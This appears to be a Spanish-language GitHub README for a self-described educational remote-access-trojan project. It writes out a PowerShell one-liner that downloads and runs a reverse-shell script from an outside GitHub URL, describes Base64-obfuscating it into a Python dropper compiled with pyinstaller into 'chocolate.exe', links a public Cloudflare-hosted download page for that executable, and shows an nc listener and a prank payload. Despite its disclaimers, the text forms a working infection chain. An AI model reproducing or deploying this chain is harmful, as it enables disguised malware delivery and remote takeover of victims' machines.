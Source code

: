 # Remote Code Execution Educational Project
⚠️ **ADVERTENCIA CRÍTICA: PROYECTO SOLO PARA FINES EDUCATIVOS**

⚠️🚨 **NO EJECUTAR EL EXE DE PRUEBA (chocolate.exe)**⚠️🚨
---

## Descripción del Proyecto
Este repositorio contiene código educativo diseñado exclusivamente para comprender el funcionamiento de los RAT (Remote Administration Tools) y técnicas de ejecución remota de código. El objetivo es proporcionar material de estudio para profesionales de ciberseguridad, investigadores y estudiantes en entornos controlados.

🚨 **USO RESPONSABLE REQUERIDO**

- Solo ejecutar en laboratorios aislados  
- Nunca utilizar contra sistemas sin autorización explícita  
- Comprender las implicaciones legales antes de proceder

---

## Estructura del Proyecto

### Paso 1: Ejecución Remota mediante PowerShell Ofuscado
El proyecto implementa una técnica común de ofuscación usando Base64 para ejecutar código PowerShell remotamente.

**Comando Original:**
```powershell
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/akthanon/cybersecurity-tools/refs/heads/main/shell.ps1')"
```

```python
import os

# Comando PowerShell ofuscado en Base64 con osfuscarshell.py

chocolate.py
```

---

### Paso 2: Compilación a Ejecutable
Compilación del script Python a archivo ejecutable:

```
chocolate.exe
```

```bash
pyinstaller --onefile .\chocolate.py
```

### Descarga del .exe

Para facilitar la descarga del archivo se creó una pagina llamada descarga.html que tiene un botón para descargar el archivo chocolate.exe

la pagina también está hosteada en clouflare

https://chocolate.jorpavelazc-93f.workers.dev/descarga

---

### Shell PowerShell (`shell.ps1`)
Código para establecer conexión reversa:

```
shell.ps1
```

---

### Configuración del Listener
En la máquina atacante (solo para pruebas educativas):

```bash
nc -lvnp 4444
```

---

### Payload Divertido de Ejemplo 
```
$url = "https://www.adslzone.net/app/uploads-adslzone.net/2017/01/hacked.jpg"; $output = "imagen.jpg"; Write-Host "Descargando imagen desde $url..."; Invoke-WebRequest -Uri $url -OutFile $output; if (Test-Path $output) { Write-Host "Imagen descargada correctamente."; Start-Process $output } else { Write-Host "Error: No se pudo descargar la imagen." }; $video = "https://www.youtube.com/watch?v=dQw4w9WgXcQ"; Write-Host "Abriendo video de YouTube..."; Start-Process $video
```

---

## 🔒 Advertencias de Seguridad

⚠️ **DECLARACIÓN LEGAL IMPORTANTE**

- **USO ÉTICO OBLIGATORIO:** Este código debe usarse solo con fines educativos.  
- **AUTORIZACIÓN REQUERIDA:** Nunca ejecutar en sistemas sin permiso explícito.  
- **RESPONSABILIDAD DEL USUARIO:** El mal uso de este material es responsabilidad exclusiva del usuario.  
- **CONSECUENCIAS LEGALES:** El uso no autorizado puede violar leyes locales e internacionales.

---

## Configuración Segura Recomendada
- Ejecutar en máquinas virtuales aisladas  
- Usar redes de laboratorio separadas  
- Desactivar conexión a internet durante pruebas  
- Monitorear con herramientas de seguridad

---

## Objetivos Educativos
- Comprender técnicas de ofuscación de código  
- Analizar mecanismos de ejecución remota  
- Estudiar patrones de comportamiento de RAT  
- Desarrollar contramedidas de detección

---

## Contribuciones
Se aceptan contribuciones que mejoren el valor educativo o añadan análisis de detección y prevención.

---

⚠️ **RECUERDA:** El conocimiento es poder, pero la responsabilidad es esencial. Usa este material sabiamente.
